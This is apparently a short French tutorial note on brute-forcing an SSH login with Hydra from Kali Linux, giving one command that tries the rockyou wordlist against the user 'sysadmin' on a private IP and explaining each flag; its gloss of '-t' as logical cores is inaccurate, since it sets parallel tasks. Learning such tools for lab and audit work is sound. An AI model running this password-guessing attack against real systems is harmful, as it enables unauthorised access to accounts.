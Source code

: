 ```yaml
---
{"dg-publish":true,"permalink":"/mes-notes/kali/brute-force-hydra/"}
---
```


Pour commencer il faut se retrouver sur notre machine kali linux ou tout autres machine contenant le paquet hydra (pour moi ce sera une kali):

```Shell
┌──(kali㉿DESKTOPEnzo)-[~/Desktop]
└─$ sudo -s
┌──(root㉿DESKTOPEnzo)-[root]
└─$ hydra -l sysadmin -P /home/kali/rockyou.txt -t 6 ssh://10.54.0.100:22
```
- `<-l sysadmin>`  déclare le username que l'on veut avoir ici c'est donc `<sysadmin>`
- `<-P /home/kali/rockyou.txt>` déclare le chemin du fichier de notre banque de mot de passe
- `<-t 6>` précise le nombre de coeur logique actif pour cette tâche 
- `<ssh://10.54.0.100:22>` sert à déclarer le protocole donc `<ssh>` ici ainsi que l'IP et le port.